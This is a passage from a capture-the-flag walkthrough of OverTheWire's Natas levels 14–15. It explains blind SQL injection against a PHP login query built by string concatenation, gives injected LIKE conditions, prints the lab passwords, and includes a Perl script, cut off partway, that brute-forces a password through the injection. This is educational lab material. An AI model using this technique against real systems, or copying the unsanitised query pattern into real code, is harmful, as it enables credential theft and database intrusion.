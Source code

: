 Pay attention to include a whitespace in the end after the `--`.

This breaks it and gets the flag:

```
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

## 15 Bruteforcing sqli - WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

This is another sql injection vuln, but in this case we will need to bruteforce it into giving us the desired result.

When looking at the source for this challenge, it shows us the table structure.

```sql
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
```

The subject query is:

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```

We can craft the username in such way that this is queried:

```sql
SELECT * from users where username="natas16" and password like "a%"
```

And if that does not work, we go to:

```sql
SELECT * from users where username="natas16" and password like "b%"
```

And so on until we get an affirmative response.... of course doing this manually is not manegeable, so we will create a script to automate that... in perl 🤟.

```perl
#!/usr/bin/perl
use strict;
use warnings;
use v5.10;
use LWP::UserAgent;
use HTTP::Request::Common;

my $url = 'http://natas15.natas.labs.overthewire.org/index.php';
my $ua = LWP::UserAgent->new();

my $flag_found = 0;
my $flag = '';
my @possible_characters = split('', '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ');

while (!$flag_found) {
	for(my $char_index = 0; $char_index < @possible_characters; $char_index++) {
		my $char = $possible_characters[$char_index];
		my $temp_flag = $flag . $char;
		print "Attempting $temp_flag\n";
		my $payload = "natas16\" and password like binary \"$temp_flag%";

		my $request = POST $url, Content => [ username => $payload ];

		$request->authorization_basic('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J');

		my $response = $ua->request($request);
```